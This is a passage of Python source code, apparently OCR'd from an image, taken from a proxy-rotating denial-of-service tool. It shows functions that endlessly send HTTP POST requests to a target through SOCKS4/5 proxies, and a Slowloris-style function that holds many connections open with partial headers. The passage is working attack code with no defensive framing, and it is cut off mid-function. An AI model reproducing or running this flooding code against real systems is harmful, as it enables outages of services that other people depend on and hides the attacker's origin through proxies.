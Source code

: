 					if not sent:
						proxy = Choice(proxies).strip().split(":")
						break
				s.close()
			except:
				s.close()
			ind_rlock.acquire()
			ind_dict[(proxy[0]+":"+proxy[1]).strip()] += multiple+1
			ind_rlock.release()
		except:#dirty fix
			s.close()

def post(event,socks_type,ind_rlock):
	global ind_dict
	request = GenReqHeader("post")
	proxy = Choice(proxies).strip().split(":")
	event.wait()
	while True:
		try:
			s = socks.socksocket()
			if socks_type == 4:
				s.set_proxy(socks.SOCKS4, str(proxy[0]), int(proxy[1]))
			if socks_type == 5:
				s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
			if brute:
				s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
			s.connect((str(target), int(port)))
			if str(port) == '443': # //AUTO Enable SSL MODE :)
				ctx = ssl.SSLContext()
				s = ctx.wrap_socket(s,server_hostname=target)
			try:
				for _ in range(multiple+1):
					sent = s.send(str.encode(request))
					if not sent:
						proxy = Choice(proxies).strip().split(":")
						break
				s.close()
			except:
				s.close()
			ind_rlock.acquire()
			ind_dict[(proxy[0]+":"+proxy[1]).strip()] += multiple+1
			ind_rlock.release()
		except:
			s.close()

socket_list=[]
def slow(conn,socks_type):
	proxy = Choice(proxies).strip().split(":")
	for _ in range(conn):
		try:
			s = socks.socksocket()
			if socks_type == 4:
				s.set_proxy(socks.SOCKS4, str(proxy[0]), int(proxy[1]))
			if socks_type == 5:
				s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
			s.settimeout(1)
			s.connect((str(target), int(port)))
			if str(port) == '443':
				ctx = ssl.SSLContext()
				s = ctx.wrap_socket(s,server_hostname=target)
			s.send("GET /?{} HTTP/1.1\r\n".format(Intn(0, 2000)).encode("utf-8"))# Slowloris format header
			s.send("User-Agent: {}\r\n".format(getuseragent()).encode("utf-8"))
			s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5").encode("utf-8"))
			if cookies != "":